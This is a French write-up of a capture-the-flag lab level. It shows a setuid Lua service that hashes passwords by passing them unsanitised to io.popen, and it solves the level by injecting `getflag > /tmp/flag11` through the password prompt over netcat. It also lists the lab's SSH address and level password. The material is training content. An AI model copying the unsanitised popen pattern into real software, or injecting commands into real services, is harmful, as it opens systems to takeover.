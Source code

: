 # Level11

Se connecter en tant que `level11`:

    $ ssh 192.168.1.124 -p 4242 -l level11
    level11@192.168.1.124's password: feulo4b72j7edeahuete3no7c

---

Premiere étape de recherche

    $ ls -la
    -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

On trouve un script lua

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

```

C'est un programme qui ouvre une connexion et attends un password pour le comparer avec celui hashé
Il utilise la fonction "io.popen" pour la fonction de hash. Cette fonction permet d'executer des programmes. Le programme s'en sert pour executer une commande

```lua
io.popen("echo "..pass.." | sha1sum", "r")
```

Il execute un echo + le mdp reçu pipé avec sha1sum pour obtenir le hash

On test sa connexion avec netcat

    $ nc localhost 5151
    Password:

Il attend bien le mot de passe

On peut injecter des commandes a executer pour completer sa commande directement dans le mot de passe :

`getflag > /tmp/flag11`

Le flag se trouve donc dans le fichier "/tmp/flag11"
